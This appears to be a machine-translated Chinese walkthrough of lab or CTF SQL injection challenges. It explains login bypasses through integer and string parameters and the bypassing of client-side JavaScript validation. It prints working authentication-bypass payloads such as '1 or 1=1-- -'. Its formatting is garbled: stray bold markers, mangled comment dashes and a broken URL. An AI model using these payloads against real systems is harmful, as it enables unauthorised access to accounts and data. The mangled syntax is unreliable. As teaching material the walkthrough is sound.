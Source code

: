 **内联 SQL 注释最安全的解决方案是使用— <space><any character="">比如—，因为如果它被 URL 编码成—% 20—它仍然会被解码为—。更多信息，请参见:[](https://blog.raw.pm/en/sql-injection-mysql-comment/)</any></space>**

****SQL 注入 1:输入框非字符串****

****当用户登录时，应用程序执行以下查询:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'**
```

****登录时，用户向 profileID 参数提供输入。对于这个挑战，参数接受一个整数，如下所示:****

```
**profileID=10**
```

****因为没有输入清理，所以可以通过使用任何真条件(例如下面的条件)作为 ProfileID 来绕过登录****

```
**1 or 1=1-- -**
```

****绕过登录并检索标志。****

****SQL 注入 2:输入框字符串****

****这个挑战使用与前一个挑战相同的查询。但是，该参数需要的是字符串而不是整数，如下所示:****

```
**profileID='10'**
```

****因为它需要一个字符串，所以我们需要修改我们的有效负载来稍微绕过登录。下面一行将让我们进入:****

```
**1' or '1'='1'-- -**
```

****绕过登录并检索标志。****

****SQL 注入 3 和 4: URL 和 POST 注入****

****这里，SQL 查询与前一个相同:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'**
```

****但是在这种情况下，恶意用户输入不能通过登录表单直接注入到应用程序中，因为已经实现了一些客户端控件:****

```
**function **validateform**() {var profileID = document.inputForm.profileID.value;var password = document.inputForm.password.value;if (/^[a-zA-Z0-9]*$/.**test**(profileID) == false || /^[a-zA-Z0-9]*$/.**test**(password) == false) {**alert**("The input fields cannot contain special characters");return false;}if (profileID == null || password == null) {**alert**("The input fields cannot be empty.");return false;}}**
```

****上面的 JavaScript 代码要求 profileID 和密码只包含 a-z、A-Z 和 0–9 之间的字符。客户端控件只是为了改善用户体验，并不是一种安全功能，因为用户可以完全控制客户端及其提交的数据。例如，可以使用 Burp Suite 等代理工具绕过客户端 JavaScript 验证**(**[**https://ports wigger . net/support/using-Burp-to-bypass-client-side-JavaScript-validation**](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)**)**。****
